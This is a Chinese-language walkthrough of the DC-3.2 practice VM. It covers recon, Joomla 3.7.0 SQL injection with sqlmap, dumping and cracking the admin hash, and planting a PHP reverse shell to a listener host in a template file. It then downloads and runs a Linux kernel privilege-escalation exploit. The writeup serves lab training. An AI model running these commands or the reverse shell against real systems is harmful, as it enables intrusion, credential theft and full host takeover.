本次学习的是DC-3.2靶机，涉及到端口扫描，目录扫描，sql注入，john破解hash，内核漏洞提权
该靶机打开的 时候会遇到下面的问题：

我们只需要在cd/dvd里的高级把IDE改成0:0即可

信息收集
扫描主机ip：
1 | arp-scan -l |

端口扫描
扫描开放端口：
1 | nmap 192.168.130.151 |

目录扫描
与以往的不一样，这里只开放了80端口，那就进行目录扫描：
1 | dirsearch -u 192.168.130.151 -i,200 |

扫描到robots文件和administrator目录，先看下robots文件记录内容：
1 | http://192.168.130.151/robots.txt.dist |

然后再查看下administrator：
1 | http://192.168.130.151/administrator/ |

原来是后台的登录页面，没有账号密码，那就先用sqlmap跑一下：
1 | sqlmap -u http://192.168.130.151/administrator/index.php --data="username=1&passwd=1" --batch |

不存在注入点，不过我们发现该cms是joomla，我们可以用joomscan来扫描使用的版本，然后查看是否有历史漏洞：

1 | apt install joomscan |

版本是3.7.0，使用自带的漏洞库查找：
1 | searchsploit joomla 3.7.0 |

我们使用第一个脚本进行sql注入，需要先把该脚本下载到当前目录：
1 | searchsploit -m 42033.txt |

查看其内容：
1 | cat 42033.txt |

SQL注入
直接给出了sqlmap梭哈的命令：
1 | sqlmap -u "http://192.168.130.151/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] |

扫描出数据库joomladb数据库，接着查找相关的表：
1 | sqlmap -u "http://192.168.130.151/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --batch -D joomladb -tables |

查到users表，我想继续查找字段名，按照一般性的语句查找列，但是死活跑不出来，留一个大大的问号？？？
1 | sqlmap -u "http://192.168.130.151/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --batch -p list[fullordering] -D "joomladb" -T "#__users" --columns |

但是下面的语句却能跑出来正确的列，不知道为什么。。。
1 | sqlmap -u "http://192.168.130.151/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 -p list[fullordering] -D "joomladb" --tables -T "#__users" --columns |


那就把username和password字段的数据导出来：
1 | sqlmap -u "http://192.168.130.151/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 -p list[fullordering] -D "joomladb" --tables -T "#__users" -C "username,password" --dump |

查到amdin的hash密码：$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu，我们用john工具尝试能否解出来：

密码：snoopy
登录后台发现我们可以编写模板页面：


我们往里面写入phpinfo看是否有效：

这里如何确定该文件的目录结构呢？要么去网上找该cms的框架结构，或者一点点尝试：先试试/administrator/templates/，虽然有内容，但这些页面跟我们要找的不一致，那就把administrator去掉，尝试/templates/beez3/，虽然是空白页面，但并没有报错，说明该目录下存在文件：


尝试jsstrings.php写入的phpinfo是否有效：
1 | http://192.168.130.151/templates/beez3/jsstrings.php |

getshell
既然有效，那我们往里面加入反弹shell的命令：
1 | exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.130.128/8888 0>&1'"); |

开启监听，然后访问jsstring.php页面：
1 | nc -lvnp 8888 |

成功getshell（这里也可以用蚁剑getshell）
内核漏洞提权
下面没有sudo提权也没有suid提权，比较难搞，查看其内核版本和发行版本（内核版本是 Linux 的核心引擎，发行版本是包含引擎的完整汽车）：
1 | uname -a //查看内核版本号 |


继续使用漏洞库查找有没有与之相关的历史漏洞：
1 | searchsploit ubuntu 16.04 |

我们使用第三个：Linux Kernel 4.4.x (Ubuntu 16.04) - ‘double-fdput()’ bpf(BPF_PROG_LOAD) Privilege Escalation | linux/local/39772.txt，先下载下来
1 | searchsploit -m 39772.txt |
查看其内容
1 | cat 39772.txt |

找到脚本的下载地址：https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip，我们需要把该脚本放到webshell中执行就能提权
以为随便一个目录就可以呢，结果是必须在/var/www/html/templates/beez3目录下
有两种方式把该脚本上传到靶机上
一.kali主机上wget下载到指定的目录：
1 | wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip -O "/home/zh1yu/39772.zip" |

然后在该目录下启动简易 HTTP 服务器的Python 2 命令，主要用于本地开发或文件共享
1 | python2 -m SimpleHTTPServer 9999 |

然后在webshell中下载（这里下载的根目录是http服务开启的目录：/home/zh1yu/）：
1 | wget http://192.168.130.128:9999/dc8.sh -O /tmp/39772.zip |

当然上面那种做法比较麻烦，完全可以在webshell中下载脚本，在wget能使用的前提下：
1 | wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip -O /tmp/39772.zip |
上面的下载地址是放在了/tmp目录下，这是错误的，必须在/var/www/html/templates/beez3目录下才可以正常执行
1 | cd /var/www/html/templates/beez3 |

然后解压，找到sh脚本文件：
1 | unzip 39772.zip |

执行脚本：
1 | ./compile.sh |
